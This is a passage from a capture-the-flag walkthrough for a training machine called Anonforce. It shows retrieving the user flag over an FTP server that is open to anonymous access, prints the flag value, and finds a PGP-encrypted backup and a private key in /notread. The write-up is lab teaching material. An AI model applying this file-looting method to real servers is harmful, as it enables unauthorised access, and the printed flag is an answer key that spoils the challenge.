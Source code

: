 ## User Flag

Thankfully, we have permission to download the user flag. Just head to `/home/melodias` and then, download the flag using `get` command:

~~~
ftp> cd /home/melodias
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000           33 Aug 11  2019 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (259.8916 kB/s)
~~~

Now we can read the file on our machine:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Anonforce/files]
└─$ cat user.txt   
606083fd33beb1284fc51f411a706af8
~~~

user.txt: `606083fd33beb1284fc51f411a706af8`

## Obtaining credentials

Now we need to escalate to a more privileged user or even root to obtain the root flag. If you look closely at the folders, there is a folder called `/notread`. If you list the files inside it, you can see a pgp file which is an encrypted file and an asc file which is an armored ASCII file used by Pretty Good Privacy (PGP) which is basicly a key:

~~~
ftp> cd /notread
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 .
drwxr-xr-x   23 0        0            4096 Aug 11  2019 ..
-rwxrwxrwx    1 1000     1000          524 Aug 11  2019 backup.pgp
-rwxrwxrwx    1 1000     1000         3762 Aug 11  2019 private.asc
226 Directory send OK.
~~~


### Decrypting backup.pgp

